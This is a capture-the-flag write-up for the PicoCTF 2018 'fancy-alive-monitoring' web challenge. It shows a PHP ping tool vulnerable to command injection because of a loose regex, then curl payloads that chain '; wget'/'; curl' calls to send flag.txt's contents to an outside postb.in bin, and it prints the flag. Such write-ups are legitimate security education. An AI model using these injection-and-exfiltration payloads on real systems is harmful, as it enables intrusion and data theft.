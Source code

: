```yaml
---
layout: posts
title:  Pico CTF 2018 - fancy-alive-monitoring (Web)
date:   2018-09-27
categories: [CTFs, pico18]
---
```


[~$ cd ..](/ctfs/pico18/2018/09/27/index.html)

>One of my school mate developed an alive monitoring tool.
>Can you get a flag from http://2018shell1.picoctf.com:43316 (link)?

We are landed in front of a really simple website:

![site](/assets/res/CTFs/pico18/fancy_alive_mon/site.png)

The source we are given is as follows:

> ```html
><html>
><head>
>	<title>Monitoring Tool</title>
>	<script>
>	function check(){
>		ip = document.getElementById("ip").value;
>		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
>		if (!chk) {
>			alert("Wrong IP format.");
>			return false;
>		} else {
>			document.getElementById("monitor").submit();
>		}
>	}
>	</script>
></head>
><body>
>	<h1>Monitoring Tool ver 0.1</h1>
>	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
>	<p> Input IP address of the target host
>	<input id="ip" name="ip" type="text">
>	</p>
>	<input type="button" value="Go!" onclick="check()">
>	</form>
>	<hr>
>
><?php
>$ip = $_POST["ip"];
>if ($ip) {
>	// super fancy regex check!
>	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
>		exec('ping -c 1 '.$ip, $cmd_result);
>		foreach($cmd_result as $str){
>			if (strpos($str, '100% packet loss') !== false){
>				printf("<h3>Target is NOT alive.</h3>");
>				break;
>			} else if (strpos($str, ', 0% packet loss') !== false){
>				printf("<h3>Target is alive.</h3>");
>				break;
>			}
>		}
>	} else {
>		echo "Wrong IP Format.";
>	}
>}
>?>
><hr>
><a href="index.txt">index.php source code</a>
></body>
></html>
> ```

Fancy regex on server side, uh? Well, for some unknown reason, the regex's are not the same! On the server, we can append data at the end.
However, we had to find a way to exfiltrate the result of the command, since it's not displayed by the actual script.

We first created a temporary URL grabber on [postb.in](https://postb.in/), and then used `curl` to bypass the Javascript sanity check:

> ```sh
>% curl --data 'ip=8.8.8.8 1> /dev/null; wget "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
>% curl --data 'ip=8.8.8.8 1> /dev/null; curl "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
> ```

The first part of the command redirects the standard output of the command to `/dev/null`, which allows the PHP script to continue until the end. The second
part, after the semi-colon exfiltrate the flag, and we got: **picoCTF{n3v3r_trust_a_b0x_c4a9b715}**
